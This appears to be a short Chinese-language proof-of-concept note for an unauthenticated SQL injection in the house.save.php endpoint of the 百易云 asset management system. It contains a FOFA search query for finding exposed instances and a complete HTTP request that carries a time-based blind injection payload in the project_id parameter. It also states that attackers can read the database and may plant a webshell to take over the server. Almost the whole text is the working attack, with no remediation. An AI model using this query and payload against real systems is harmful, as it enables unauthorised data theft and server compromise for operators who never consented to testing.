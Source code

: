 # 百易云资产管理运营系统house.save.php存在SQL注入漏洞

百易云资产管理运营系统 house.save.php 接口存在SQL注入漏洞，未经身份验证的远程攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

## fofa

```yaml
body="不要着急，点此"
```

## poc

```javascript
GET /adminx/house.save.php?project_id=1%20AND%20(SELECT%206941%20FROM%20(SELECT(SLEEP(5)))OKTO) HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:129.0) Gecko/20100101 Firefox/129.0
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept: application/json, text/javascript, */*; q=0.01
Accept-Encoding: gzip, deflate
Connection: keep-alive
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202409111003864.png)